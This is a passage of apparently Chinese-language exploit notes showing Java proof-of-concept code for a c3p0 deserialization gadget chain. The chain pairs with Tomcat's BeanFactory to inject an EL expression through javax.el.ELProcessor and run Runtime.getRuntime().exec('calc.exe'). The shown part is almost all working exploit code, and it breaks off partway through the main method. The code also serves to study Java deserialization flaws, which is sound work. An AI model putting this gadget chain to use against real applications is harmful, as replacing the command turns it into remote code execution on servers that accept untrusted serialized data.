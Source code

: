 改下 url 链子中的，修改下返回的 Reference ，打 el 表达式注入

```
package org.example;

import com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase;
import org.apache.naming.ResourceRef;

import java.io.*;
import java.lang.reflect.Field;
import javax.naming.NamingException;
import javax.naming.Reference;
import javax.naming.Referenceable;
import javax.naming.StringRefAddr;
import javax.sql.ConnectionPoolDataSource;
import javax.sql.PooledConnection;
import java.sql.SQLException;
import java.sql.SQLFeatureNotSupportedException;
import java.util.logging.Logger;

public class c3p0_tomcat {
    public static class exp implements ConnectionPoolDataSource, Referenceable{
        @Override
        public Reference getReference() throws NamingException {
            ResourceRef resourceRef = new ResourceRef(&#34;javax.el.ELProcessor&#34;, (String)null, &#34;&#34;, &#34;&#34;, true, &#34;org.apache.naming.factory.BeanFactory&#34;, (String)null);
            resourceRef.add(new StringRefAddr(&#34;forceString&#34;, &#34;faster=eval&#34;));
            resourceRef.add(new StringRefAddr(&#34;faster&#34;, &#34;Runtime.getRuntime().exec(\&#34;calc.exe\&#34;)&#34;));
            return resourceRef;
        }

        @Override
        public PooledConnection getPooledConnection(String user, String password) throws SQLException {
            return null;
        }
        @Override
        public PooledConnection getPooledConnection() throws SQLException {
            return null;
        }
        @Override
        public PrintWriter getLogWriter() throws SQLException {
            return null;
        }
        @Override
        public void setLogWriter(PrintWriter out) throws SQLException {
        }
        @Override
        public void setLoginTimeout(int seconds) throws SQLException {
        }
        @Override
        public int getLoginTimeout() throws SQLException {
            return 0;
        }
        @Override
        public Logger getParentLogger() throws SQLFeatureNotSupportedException {
            return null;
        }
    }
    public static void main(String[] args) throws Exception{
        PoolBackedDataSourceBase pds = new PoolBackedDataSourceBase(false);
        Class cl = Class.forName(&#34;com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase&#34;);
```